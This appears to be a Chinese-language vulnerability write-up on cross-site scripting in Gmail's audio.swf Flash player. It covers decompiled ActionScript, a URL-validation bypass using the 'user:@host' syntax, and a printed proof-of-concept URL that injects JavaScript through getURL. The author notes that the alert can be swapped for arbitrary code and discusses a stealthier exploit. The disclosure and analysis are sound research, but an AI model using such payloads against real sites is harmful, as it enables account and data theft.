 ```
        if (_loc3 == -1)
        {
            _loc3 = 0;
        }
        else
        {
            _loc3 = _loc3 + 3;
        } // end else if
        var _loc4 = com.google.webutil.url.Utils.indexOfOrMax(url, "/", _loc3);
        var _loc5 = com.google.webutil.url.Utils.indexOfOrMax(url, "?", _loc3);
        var _loc6 = Math.min(_loc4, _loc5);
        return (url.substring(0, _loc6));
    }; 
```

注意 getProtocolAndHost 函数中 var *loc5 = _loc3.lastIndexOf(":")这行代码, 我想程序员的本意是想利用这个":"获取 web 应用的端口, 如 localhost:8080 之类的, 但是在 uri 中,还有一个地方是需要":"的, 就是在 401 登陆中, 作为用户名和密码的分割符, 而且这个":"出现的位置是在作为分割 host 和端口的":"之前. 利用这个特性,我们就可以很轻松地绕过 isValidAbsoluteGoogleUrl 的检查了. 载入 http://localhost/gmail/audio.swf?audioUrl=http://google.com:@localhost/t.mp3 时, 成功地读取到的 mediaState*.audioUrl 的值,就是 http://google.com:@localhost/t.mp3.

再加上其他参数,使得能满足上述的一些 if 判断,最后的 poc 如下:

```
https://mail.google.com/mail/html/audio.swf?playerMode=normal&autoplay=true&audioUrl=http://google.com:@localhost/gmail/t.mp3?%27%29%3Bfunction%20FlashRequest%28%29%7Balert%28document.domain%29%7D%2f%2f 
```

URL 解码后如下

```
https://mail.google.com/mail/html/audio.swf?playerMode=normal&autoplay=true&audioUrl=http://google.com:@localhost/gmail/t.mp3?');function FlashRequest(){alert(document.domain)}// 
```

我们拼接最后传入 getURL 的伪协议字符串

```
javascript:FlashRequest('donePlaying', 'http://google.com:@localhost/gmail/t.mp3?');function FlashRequest(){alert(document.domain)}//'); 
```

由于在承载 swf 的 html 页面中 FlashRequest 未定义, 我们需要自己定义一个 FlashRequest 函数, 而且在 js 中, function 语句是最先执行的, 所以不用担心在执行 FlashRequest('donePlaying', 'http://google.com:@localhost/gmail/t.mp3?')这句时 FlashRequest 还没有定义. 当然, 你可以把 alert(document.domain)转换成任意你想要执行的 js 代码. 另外值得注意的一点就是, 由于 getURL 操作在 mp3 播放完毕后才触发的, 因此我们把 http://localhost/t.mp3 剪切得足够短, 只有 0.5 秒, 当你打开 swf 之后, 不到一秒钟, MP3 已经载入并播放完毕, js 得到了执行, 你很难察觉到其中的延迟.

[0x02] 优雅利用

对于一个完美主义者, 我们不得不承认, 上述提到的 poc 是丑陋的. 原因如下:

```
1\. 我们的 URL 中含有大量的脏代码, 这仅仅是一个 poc, 如果需要更进一步的操作, 我们还要添加大量字符到 url.
2\. 像"http://google.com:@localhost/t.mp3"这样的 URL 只能被 Firefox 认可, Chrome 和 IE 会废弃这类的请求.
3\. 如果我们需要真正地做一些 dirty work, 而不仅仅是弹个 document.domain 的窗, 那么我们可能需要进行一些的网络通信, 比如载入 js,获取关键数据等, 而这些操作的代价是什么, 没错, 就是时间. 我们的 poc 仅仅是播放一个 0.5 秒长的 MP3 文件, 对于一个无聊的 dead page, 人们的反应通常右上角的 X. 换句话说, 我们争取不到我们需要的时间. 
```
